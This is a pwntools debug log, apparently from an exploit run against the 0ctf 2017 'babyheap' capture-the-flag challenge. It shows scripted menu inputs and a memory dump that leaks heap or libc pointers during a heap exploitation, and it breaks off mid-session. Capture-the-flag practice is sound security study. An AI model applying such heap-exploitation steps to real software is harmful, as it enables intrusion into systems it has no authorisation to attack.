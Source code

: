 ``` Python LOG
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Received 0x3c bytes:
    b'Index: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("4")
[DEBUG] Sent 0x2 bytes:
    b'4\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(index))
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x21f bytes:
    00000000  49 6e 64 65  78 3a 20 43  6f 6e 74 65  6e 74 3a 20  │Inde│x: C│onte│nt: │
    00000010  0a 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  00 00 00 00  00 00 00 00  00 41 01 00  00 00 00 00  │····│····│·A··│····│
    000000b0  00 78 4b 1c  37 b4 7f 00  00 78 4b 1c  37 b4 7f 00  │·xK·│7···│·xK·│7···│
    000000c0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000001e0  00 40 01 00  00 00 00 00  00 0a 31 2e  20 41 6c 6c  │·@··│····│··1.│ All│
    000001f0  6f 63 61 74  65 0a 32 2e  20 46 69 6c  6c 0a 33 2e  │ocat│e·2.│ Fil│l·3.│
    00000200  20 46 72 65  65 0a 34 2e  20 44 75 6d  70 0a 35 2e  │ Fre│e·4.│ Dum│p·5.│
    00000210  20 45 78 69  74 0a 43 6f  6d 6d 61 6e  64 3a 20     │ Exi│t·Co│mman│d: │
    0000021f
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:26: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:")
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x2 bytes:
    b'5\n'
[DEBUG] Received 0x3c bytes:
    b'Index: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[DEBUG] Sent 0x3 bytes:
    b'40\n'
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
```